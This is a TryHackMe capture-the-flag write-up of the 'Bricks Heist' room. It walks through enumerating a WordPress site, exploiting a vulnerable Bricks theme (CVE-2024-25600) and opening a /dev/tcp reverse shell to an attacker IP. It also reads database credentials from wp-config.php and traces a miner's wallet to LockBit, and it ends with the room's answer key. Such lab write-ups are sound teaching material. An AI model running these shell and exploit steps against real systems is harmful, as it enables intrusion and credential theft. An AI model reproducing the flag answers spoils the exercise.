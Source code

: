 # TryHack3M: Bricks Heist | TryHackMe Write-up

 **Overview**

-   Room: Bricks Heist\
-   Difficulty: Easy\
-   Tags: Enumeration, WordPress, Exploitation, Privilege Escalation,
    OSINT

------------------------------------------------------------------------

##  Enumeration

Full port scan:

``` bash
sudo nmap -sV -sT -O -p- bricks.thm
```

Open ports:

    22/tcp   open  ssh
    80/tcp   open  http
    443/tcp  open  https
    3306/tcp open  mysql

On HTTP there was only an image.\
Let's check directories:

``` bash
gobuster dir -u http://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

``` bash
gobuster dir -k -u https://bricks.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

Discovered `wp-content` → WordPress site.

------------------------------------------------------------------------

##  WordPress Scan

``` bash
wpscan --url https://bricks.thm/ --disable-tls-checks
```

Found theme **bricks 1.9.5** → vulnerable.\
Exploit:
[CVE-2024-25600](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT)

``` bash
pip3 install alive-progress
```

Running the exploit gives us access as user `apache`.

------------------------------------------------------------------------

##  Reverse Shell

Start listener:

``` bash
nc -lvnp 9001
```

On target:

``` bash
sh -i 5<> /dev/tcp/10.10.10.10/9001 0<&5 1>&5 2>&5
```

Now we have a stable shell.\
Found a hidden `.txt` file containing the first flag.

------------------------------------------------------------------------

##  wp-config.php

``` bash
cat wp-config.php
```

Found **DB credentials**.\
Log into:

    https://bricks.thm/phpmyadmin

Access granted, but not useful for the next question.

------------------------------------------------------------------------

## ⚙ Services

Check running services:

``` bash
systemctl list-units --type=service --state=running
```

Suspicious service found:

``` bash
systemctl cat ubuntu.server
```

→ points to `/lib/NetworkManager`.

------------------------------------------------------------------------

##  Malicious Files

Inside the directory we find `inet.conf`.

``` bash
head inet.conf
```

It contains an encoded ID.\
Decode with **CyberChef** → crypto wallet address.

------------------------------------------------------------------------

##  Blockchain OSINT

Check the address on [blockchair.com](https://blockchair.com/).\
Transaction history links it to the **LockBit Ransomware Group**.

------------------------------------------------------------------------

##  Answers

1.  **User flag**:

        THM{fl46_650c844110baced87e1606453b93f22a}

2.  **Suspicious crypto wallet**:

        bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

3.  **Ransomware Group**:

        LockBit

------------------------------------------------------------------------

##  Conclusion

-   Enumeration → WordPress discovered.\
-   Exploited vulnerable theme → got `apache` shell.\
-   Extracted creds from `wp-config.php`.\
-   Analyzed suspicious systemd service.\
-   Extracted and decoded ID from `inet.conf`.\
-   OSINT linked the wallet to **LockBit Group**.

------------------------------------------------------------------------


